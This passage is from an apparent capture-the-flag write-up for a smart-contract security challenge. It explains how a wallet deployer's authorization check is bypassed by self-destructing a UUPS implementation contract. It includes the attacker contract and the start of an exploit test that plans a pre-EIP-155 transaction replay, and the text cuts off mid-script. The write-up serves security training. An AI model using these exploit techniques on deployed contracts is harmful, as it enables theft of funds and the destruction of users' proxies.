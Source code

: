 ```sol
    function upgradeToAndCall(address newImplementation, bytes memory data) public payable virtual onlyProxy {
        _authorizeUpgrade(newImplementation);
        _upgradeToAndCallUUPS(newImplementation, data);
    }
```

Finally, let's examine the can() function used by WalletDeployer to validate addresses. This function checks whether staticcall() returns true. However, staticcall() can return true even if the address doesn't contain any code. Therefore, we can simply self-destruct the implementation contract to bypass this check. For more information on how this works, refer to the [Solidity docs](https://docs.soliditylang.org/en/v0.8.23/control-structures.html#error-handling-assert-require-revert-and-exceptions)

```sol
    // TODO(0xth3g450pt1m1z0r) put some comments
    function can(address u, address a) public view returns (bool) {
        assembly { 
            let m := sload(0)
            if iszero(extcodesize(m)) {return(0, 0)}
            let p := mload(0x40)
            mstore(0x40,add(p,0x44))
            mstore(p,shl(0xe0,0x4538c4eb))
            mstore(add(p,0x04),u)
            mstore(add(p,0x24),a)
            if iszero(staticcall(gas(),m,p,0x44,p,0x20)) {return(0,0)}
            if and(not(iszero(returndatasize())), iszero(mload(p))) {return(0,0)}
        }
        return true;
    }
```

Contract code for self-destructing the UUPS implementation contract.
```sol
contract FakeAuthorizer is UUPSUpgradeable {

    function attack() public {
        selfdestruct(payable(address(0)));
    }

    function _authorizeUpgrade(address imp) internal override {}
}
```

#### 3. Wrap it up
```js
    it('Execution', async function () {
        // First, find the deployer who deployed the ProxyFactory and MasterCopy (do this on etherscan) - `0x1aa7451dd11b8cb16ac089ed7fe05efa00100a6a`.
        // - https://etherscan.io/tx/0x75a42f240d229518979199f56cd7c82e4fc1f1a20ad9a4864c635354b4a34261
        // - https://etherscan.io/tx/0x06d2fa464546e99d2147e1fc997ddb624cec9c8c5e25a050cc381ee8a384eed3

        // Then, we can find the deployment of MasterCopy and ProxyFactory is the 1st and 3rd transaction of the deployer.
        // - https://etherscan.io/txs?a=0x1aa7451dd11b8cb16ac089ed7fe05efa00100a6a

        // Finally, since the transactions are done BEFORE EIP-155, it does not contain chainId information in the transaction data, which means we can perform
        // a replay attack on our local chain.
        const deployer = `0x1aa7451DD11b8cb16AC089ED7fE05eFa00100A6A`;
        await player.sendTransaction({
          from: player.address,
          to: deployer,
```